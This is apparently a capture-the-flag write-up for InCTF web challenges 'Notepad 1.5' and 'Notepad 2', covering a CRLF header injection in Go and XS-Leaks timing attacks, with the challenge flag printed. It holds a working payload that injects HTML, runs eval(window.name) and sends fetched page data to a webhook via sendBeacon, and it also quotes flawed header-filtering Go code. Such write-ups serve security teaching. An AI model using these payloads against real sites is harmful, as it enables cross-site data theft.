 In, Notepad 1, the `Header name` was compared with a regex, but in this challenge, only the value is compared with a regex. With a bit of testing, one can understand that `Header().Set()` is vulnerable to a CRLF bug in the name parameter. Final payload that can be used is

```html
<script>
    window.open("http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E", name=`fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data))`)
</script>
```
**Flag:** inctf{red_dead_rezoday_ialmvwoawpwe}  

### Unintended for Notepad 1 and Notepad 2

Some of the unintended ways using Xsleaks are, `Refresh` header with a redirection back to a webhook and `Content-Disposition` header to download the page and check for navigation. 

## Notepad 2 - Ken's Chronicle

**Number of Solves**: 14  
**Points**: 925  
**Source**: [https://github.com/Az3z3l/Notepad2-Kens_Chronicle/](https://github.com/Az3z3l/Notepad2-Kens_Chronicle/)

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it.

### Solution

This challenge was based on [XSLeaks](https://xsleaks.dev/). The challenge uses a `Secure` cookie with SameSite as `None`. One other important difference in this challenge is the typo `"X-Frame-Options": "DENI",`. This allows the page to open in an Iframe. The Header setting part is shown below. 

```go
for k, v := range param {
    for _, d := range v {

        if regexp.MustCompile("^[a-zA-Z0-9{}_;-]*$").MatchString(k) && !regexp.MustCompile("[A-Za-z]{7}-[A-Za-z]{11}").MatchString(k) && len(d) < 4 && len(k) < 39 {
            w.Header().Set(k, d)
        }
        break
    }
    break
}
```

In this, we are allowed to set only a Header value of less than 4 characters. And it also disallows a Header name that matches `[A-Za-z]{7}-[A-Za-z]{11}`(Intent was to block Content-Disposition). The idea was to use `Timing-Allow-Origin: *` header. This header allows the host to use the performance api on the request used to fetch that resource. Without Timimg-Allow-Origin header, performance api doesn't give back the full result, but a minified version of it.   
